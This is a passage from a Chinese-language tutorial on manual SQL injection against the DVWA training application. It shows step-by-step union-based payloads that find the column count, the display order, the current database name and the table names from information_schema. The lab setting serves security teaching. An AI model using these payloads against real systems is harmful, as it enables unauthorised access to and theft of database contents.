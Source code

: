 输入1′ or 1=1 order by 2 #，查询成功：



[![1.png](http://image.3001.net/images/20161122/14797984067767.png!small)](http://image.3001.net/images/20161122/14797984067767.png)



输入1′ or 1=1 order by 3 #，查询失败：



[![1.png](http://image.3001.net/images/20161122/14797984355690.png!small)](http://image.3001.net/images/20161122/14797984355690.png)



说明执行的SQL查询语句中只有两个字段，即这里的First name、Surname。



（这里也可以通过输入union select 1,2,3…来猜解字段数）



### **3.确定显示的字段顺序**



输入1′ union select 1,2 #，查询成功：



[![1.png](http://image.3001.net/images/20161122/14797984749369.png!small)](http://image.3001.net/images/20161122/14797984749369.png)



说明执行的SQL语句为select First name,Surname from 表 where ID=’id’…



### **4.获取当前数据库**



输入1′ union select 1,database() #，查询成功：



[![1.png](http://image.3001.net/images/20161122/14797985121733.png!small)](http://image.3001.net/images/20161122/14797985121733.png)



说明当前的数据库为dvwa。



### **5.获取数据库中的表**



输入1′ union select 1,group\_concat(table\_name) from information\_schema.tables where table\_schema=database() #，查询成功：



[![1.png](http://image.3001.net/images/20161122/14797985443503.png!small)](http://image.3001.net/images/20161122/14797985443503.png)
